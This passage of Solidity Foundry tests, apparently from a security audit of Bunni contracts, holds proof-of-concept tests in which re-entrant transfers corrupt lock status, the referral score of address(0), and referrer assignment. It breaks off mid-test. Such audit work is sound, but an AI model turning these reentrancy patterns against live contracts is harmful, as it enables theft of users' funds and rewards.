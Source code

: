 ```solidity
        // transfer from `alice` to `bob`
        vm.prank(alice);
        bunniToken.transfer(bob, amountAlice);

        assertEq(bunniToken.balanceOf(alice), 0, "alice balance not 0");
        assertEq(bunniToken.balanceOf(bob), amountAlice + amountBob, "bob balance not equal to sum of amounts");
        console2.log("locked balance of bob: %s", unlocker.lockedBalances(bob));
        console2.log("but bunniToken.isLocked(bob) actually now returns: %s", bunniToken.isLocked(bob));
    }

    function test_PoCMinInitialSharesScore() external {
        uint256 amount = _makeDeposit(key, 1 ether, 1 ether, alice, address(0));
        assertEq(bunniToken.scoreOf(address(0)), amount + MIN_INITIAL_SHARES, "initial score not 0");

        // transfer from `alice` to `bob` (re-entrant deposit)
        vm.prank(alice);
        bunniToken.transfer(bob, amount);

        console2.log("score of address(0): %s != %s", bunniToken.scoreOf(address(0)), MIN_INITIAL_SHARES);
        console2.log("score of refB: %s", bunniToken.scoreOf(refB));
    }

    function test_PoCCrossContractReentrantHooklet() external {
        // 1. Make initial deposit from alice with referrer refA
        address referrer = refA;
        assertEq(bunniToken.scoreOf(referrer), 0, "initial score not 0");
        console2.log("making initial deposit");
        uint256 amount = _makeDeposit(key, 1 ether, 1 ether, alice, referrer);
        assertEq(bunniToken.referrerOf(alice), referrer, "referrer incorrect");
        assertEq(bunniToken.balanceOf(alice), amount, "balance not equal to amount");
        assertEq(bunniToken.scoreOf(referrer), amount, "score not equal to amount");

        // 2. Distribute rewards
        poolManager.unlock(abi.encode(currency0, 1 ether));
        bunniToken.distributeReferralRewards(true, 1 ether);
        (uint256 claimable, ) = bunniToken.getClaimableReferralRewards(address(0));
        console2.log("claimable of address(0): %s", claimable);
        (claimable, ) = bunniToken.getClaimableReferralRewards(refA);
        console2.log("claimable of refA: %s", claimable);

        // 3. Transfer bunni token to bob (re-entrant)
        referrer = address(0);
        assertEq(bunniToken.referrerOf(bob), referrer, "bob initial referrer incorrect");
        assertEq(bunniToken.scoreOf(referrer), 1e12, "initial score of referrer not MIN_INITIAL_SHARES");
        referrer = refB;
        assertEq(bunniToken.scoreOf(referrer), 0, "initial score referrer not 0");

        console2.log("transferring (re-entrant deposit)");
        // update state in User contract to use refB in deposit
        referrer = refB;
        User(bob).updateReferrer(referrer);
        vm.prank(alice);
        bunniToken.transfer(bob, amount);

        // 4. After the transfer finishes
        assertEq(bunniToken.referrerOf(bob), referrer, "referrer incorrect");
        assertGt(bunniToken.balanceOf(bob), amount, "balance not greater than amount");

```